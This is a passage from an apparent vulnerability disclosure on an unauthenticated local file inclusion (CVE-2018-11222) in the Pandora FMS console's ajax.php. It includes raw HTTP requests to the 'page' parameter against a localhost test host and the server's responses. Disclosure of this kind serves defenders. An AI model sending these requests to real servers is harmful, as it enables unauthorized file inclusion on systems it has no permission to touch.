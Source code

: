 Obviously, the cookie is not  secure.

## Unauthenticated LFI of php files _(CVE-2018-11222)_

There is a php file that has a parameter used to call other system files, the only requirement is that the called file must end with `.php`.

Calling some file that we know that exists on the system with

```
GET /pandora_console/ajax.php?page=include/config.php
```

Note that this call is unauthenticated!

This will return a nice error saying that the requested file is not available, note the extra `.php` appended to the error message

```
<br /><b class="error">Sorry! I can't find the page include/config.php.php!</b>
```

Avoiding the `.php` extension on the `page` param, the server does return a nice 200 code with a blank site, meaning that the server is executing the called php file.

There are many promising system files, one of them is `get_file`

```=
GET /pandora_console/ajax.php?page=include/get_file HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Returns:

```=
HTTP/1.1 200 OK
Date: Mon, 14 May 2018 10:57:35 GMT
Server: Apache/2.2.15 (CentOS)
X-Powered-By: PHP/5.3.3
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Set-Cookie: PHPSESSID=n8kmpsam90kcgc35dsvvkve981; expires=Mon, 14-May-2018 12:27:35 GMT; path=/
Content-Length: 178
Connection: close
Content-Type: text/html; charset=UTF-8

<h3 style='background:url("../images/err.png") no-repeat scroll 0 0 transparent; padding:4px 1px 6px 30px; color:#CC0000;'>Security error. Please contact your administrator.</h3>
```
